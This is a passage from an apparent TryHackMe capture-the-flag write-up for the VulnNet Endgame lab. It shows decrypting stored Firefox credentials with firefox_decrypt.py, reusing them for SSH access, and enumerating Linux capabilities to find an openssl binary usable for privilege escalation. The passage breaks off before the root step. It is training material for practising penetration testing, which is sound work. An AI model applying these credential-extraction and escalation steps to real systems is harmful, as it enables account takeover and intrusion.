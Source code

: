 ![image](/images/Pasted image 20221109102126.png)

i changed the `profile` file like this and ran the script again.

![image](/images/Pasted image 20221109102252.png)

finally the password. and it was the password for the user `system`.

```shell
 python3 ../../../../firefox_decrypt.py .
Select the Mozilla profile you wish to decrypt
1 -> 2o9vd4oi.default
2 -> 2fjnrwth.default-release
2

Website:   https://tryhackme.com
Username: 'chris_w@vulnnet.thm'
Password: '8***************b'
```

now i could log back in with ssh as the user `system`

### getting root

```shell
system@vulnnet-endgame:~$ id
uid=1000(system) gid=1000(system) groups=1000(system)
```

now i could read the `user.txt` and got the first flag.

![image](/images/Pasted image 20221109102650.png)

as we remember correctly we can now access the directory `Utils`

```shell
system@vulnnet-endgame:~/Utils$ ll
total 1104
dr-xr-x---  2 system system   4096 Jun 14 13:24 ./
drwxr-xr-x 18 system system   4096 Jun 15 17:12 ../
-r-xr-x---  1 system system 723944 Jun 14 13:23 openssl*
-r-xr-x---  1 system system 178312 Jun 14 13:24 unzip*
-r-xr-x---  1 system system 216256 Jun 14 13:23 zip*
```

3 binaries are placed inside. `openssl`, `unzip`, `zip`. first i checked the versions of all binaries and if they are vulnerable but was not lucky.

then another longer search followed with following result.
if i check capabilities with this command:

```shell
getcap -r / 2>/dev/null

/home/system/Utils/openssl =ep
/snap/core20/1081/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

